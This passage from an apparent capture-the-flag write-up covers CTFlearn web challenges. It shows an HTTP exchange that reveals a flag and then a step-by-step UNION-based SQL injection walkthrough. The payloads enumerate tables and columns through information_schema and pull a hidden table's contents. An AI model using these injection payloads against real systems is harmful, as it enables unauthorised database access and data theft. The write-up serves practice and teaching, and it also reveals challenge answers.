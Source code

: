 ```HTTP
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-TW;q=0.9,zh-CN;q=0.8,zh;q=0.7,fr;q=0.6
Connection: close`
```

The flag is in the response.
```HTTP
HTTP/1.1 200 OK
Connection: close
Content-Type: text/html
Date: Wed, 25 Mar 2020 09:39:44 GMT
Server: nginx/1.4.6 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.22
Content-Length: 81

Here is your flag: flag{did_this_m3ss_with_y0ur_h34d}
<!-- Sup3rS3cr3tAg3nt  -->
```

#### Inj3ction Time

*Hard*

Discription:I stumbled upon this website: http://web.ctflearn.com/web8/ and I think they have the flag in their somewhere. UNION might be a helpful command

First, just input 1, we can see the name, breed and color. So at least there are 4 cols, id, name, breed and color.
we can use `order by` and we make sure there are 4 cols.

`id=-1 union select 1,2,3,4`

We can see

```
Name: 2
Breed: 1
Color: 3
```

So we can use 1,2,3 to show information we want.(4 is id)

`id=-1 union select table_name,2,3,4 from information_schema.tables`
We can see a table called `w0w_y0u_f0und_m3`.

`id=-1 union select table_name,column_name,3,4 from information_schema.columns`
We can see the name of the column in `w0w_y0u_f0und_m3` is `f0und_m3`.

`id=-1 union select f0und_m3,2,3,4 from w0w_y0u_f0und_m3`
Then we can see the flag.

#### My Blog

*easy*

Discription:
```
Hi, I'm Noxtal! I have hidden a flag somewhere in my Cyberworld (AKA blog)... you may find a good <strong>application</strong> for your <strong>memory</strong>. ;)
```
